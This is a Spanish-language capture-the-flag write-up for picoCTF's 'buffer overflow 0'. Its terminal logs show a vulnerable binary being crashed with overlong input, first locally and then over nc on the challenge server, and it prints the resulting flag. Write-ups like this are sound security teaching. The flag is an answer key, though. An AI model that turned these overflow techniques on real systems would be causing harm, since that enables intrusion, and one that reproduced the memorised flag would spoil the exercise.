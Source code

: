 # buffer overflow 0

# Objetivo
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using: `nc saturn.picoctf.net 51532`

# Pistas
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

# Solución
- Descargamos el codigo y el ejecutable
- Para ejecutar el codigo nos dice que tiene que haber un archivo llamado flag.txt
- Lo creamos poniendo cualquier cosa
- Inspeccionamos el codigo y vemo que el input que espera el programa no deve pasar de 16 caracteres porque esto sobrepasa el buffer y salta la exepcion la cual nos da la bandera
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ chmod +x vuln 
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ nano flag.txt          
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ ./vuln       
Input: 12345678
The program will exit now
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ nano flag.txt
                                                                                          
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ ./vuln
Input: a3qaws4ed5rf6tgy7hu8jiok,pmjhnbug
1234567890daghuisg uoweghcfuisadhnf uiaehfubvisdgicbkvbai egiuk
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ 
```
- Despues de esto nos conectamos al `nc saturn.picoctf.net 51532`
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ nc saturn.picoctf.net 51532
Input: 1324sed5rf6tgyhujiop
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-0]
└─$ 

```

# Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()